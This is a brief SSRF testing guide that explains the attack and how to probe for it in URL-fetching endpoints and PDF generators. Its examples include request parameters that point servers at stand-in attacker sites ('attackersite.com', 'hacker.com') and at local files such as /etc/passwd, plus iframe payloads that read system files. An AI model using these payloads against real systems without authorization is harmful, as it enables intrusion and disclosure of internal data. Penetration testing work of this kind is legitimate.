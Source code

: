 Overview
--------
In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources. The attacker can supply or a modify a request which the code running on the server will process. By carefully selecting the details, the attacker may be able to read server configuration such as AWS metadata, connect to internal services like HTTP enabled databases, or perform POST requests towards internal services which are not intended to be exposed.

### Description
The target application may have functionality for importing data from a URL, publishing data to a URL, or otherwise reading data from a request that can be tampered with. The attacker modifies the calls to this functionality by supplying a completely different request or by manipulating how requests are built (path traversal, etc.).

Some common vulnerabilities related to server-side request forgery:
- URL redirection
- Remote file inclusion
- SQL injection
- Link Injection

### How to Test

#### Case I: End points which fetch external/internal resources

With GET request:
- http://example.com/index.php?page=about.php
- http://example.com/index.php?page=https://attackersite.com
- http://example.com/index.php?page=file:///etc/passwd

With POST request:

	POST /test/ssrf_form.php HTTP/1.1
	Host: example.com

	url=https://hacker.com/as&name2=value2

#### Case II: PDF generators 

There are some cases where server converts uploaded file to a pdf.Try injecting <iframe>, <img>, <base> or <script> elements or CSS url() functions pointing to internal services.

	<iframe src="file:///etc/passwd" width="400" height="400">
	<iframe src="file:///c:/windows/win.ini" width="400" height=”400">

Tools
----- 
Burpsuite, ZAP
